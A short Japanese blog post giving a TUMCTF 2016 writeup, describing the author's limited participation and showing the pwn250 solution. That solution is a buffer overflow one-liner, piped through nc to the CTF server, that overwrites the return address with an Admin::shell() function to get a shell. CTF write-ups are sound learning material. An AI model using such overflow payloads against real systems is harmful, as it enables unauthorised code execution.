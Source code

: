 ```yaml
---
layout: post
title: TUMCTF 2016 writeup
---
```


少ししか参加出来ていなくて, 結局pwn250と2点問題*Nしか解けなかった.

2点問題は, ロゴが与えられてこれは何. みたいな感じで答える.(50問あるのでしんどくて投げた)

pwn250は適当にやってたらRIPが取れて, system('/bin/sh');みたいな関数がある事が分かるのでそこに飛ばした.



あと, h4ckitも参加してたけどページが重かったし, 色々とハァ〜という感じだったので

期間が1週間くらいあったが800ptsくらい取って終った.

h4ckitはwriteupなし！ｗ

pwn250

```
0x400e9a <Admin::shell()>:	0xe5894855
```

```bash
(python -c 'print "AAAA\ntodo: ldap and kerberos support\0" + "A" * 40 + "\x9a\x0e\x40\0\0\0\0\0" + "\n"'; cat) |  nc 104.198.76.97 9001
```
